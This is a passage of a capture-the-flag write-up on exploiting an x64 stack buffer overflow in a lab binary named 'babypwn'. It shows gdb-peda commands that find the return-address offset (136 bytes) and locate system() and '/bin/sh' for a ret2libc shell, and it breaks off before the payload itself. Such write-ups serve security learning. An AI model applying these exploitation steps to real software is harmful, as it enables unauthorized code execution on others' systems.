 ```c
#using mprotect() syscall to make the stack executable



```

fuzzing and dtermine the offset 

```sh
gdb-peda$ pattern_create 500 1.txt
Writing pattern of 500 chars to filename "1.txt"
gdb-peda$ r < 1.txt



gdb-peda$ x/wx $rsp
0x7ffdaf7ad538:	0x41514141


gdb-peda$ pattern_offset 0x41514141
1095844161 found at offset: 136
```

**difference between x64 and x86 overwrite RIP**
we got the top of the Stack and you may wonder why in x64 cannot overwrite the RIP directly with 0x4141414141? 

the simple answer for that is the biggest address in x64 is 0x00007fffffffffff so we can't overwrite it 0x41414141414141 for instance, make sense right ? 



**Controling RIP**


```sh

>>> "A" * 136 + "CCCC"
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACCCC'



```

 if you make C * 8 which means won't meet the prerequiste since the highest address is 
'0x00007fffffffffff'. Our goal is to obtain a shell in this challenge ,I'd remind you , NX enable and should use one of those techniques that we talked about it in the privious. In this case , I'll use ret2libc , now let's get the system call and find "/bin/sh" string addresses for later use 

```sh
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7f29b5438390 <__libc_system>


gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 4 results, display max 4 items:
babypwn : 0x40202d --> 0x68732f6e69622f ('/bin/sh')
babypwn : 0x40302d --> 0x68732f6e69622f ('/bin/sh')
 [heap] : 0x135602d ("/bin/sh\n")
   libc : 0x7f29b557fd57 --> 0x68732f6e69622f ('/bin/sh')


```
our payload now is ready to get a shell , let's make it 
